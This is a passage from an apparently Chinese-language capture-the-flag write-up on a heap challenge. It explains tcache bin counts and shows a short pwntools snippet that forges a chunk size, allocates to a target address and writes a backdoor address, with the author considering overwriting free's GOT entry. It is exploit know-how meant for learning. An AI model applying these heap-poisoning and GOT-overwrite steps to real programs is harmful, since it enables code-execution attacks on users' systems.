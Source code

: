 ![image-20220222203038384](images/image-20220222203038384.png)

可以看到这个时候0x80的count为2,我们在申请两次就可以拿到我们想要的位置，接下来就是控制程序流的问题了，这道题有趣就有趣在这里，我的第一个想法是修改free_got为后门，但调试后发现：

```python
	add(0x1000,p64(0)+p64(0x31)+p64(target))# 修改0x81->0x31,使其可以free出链条
	add(0x70,"AAAA")
	gdb.attach(sh,"b *0x0000401387 ")
	add(0x70,p64(backdoor))
```
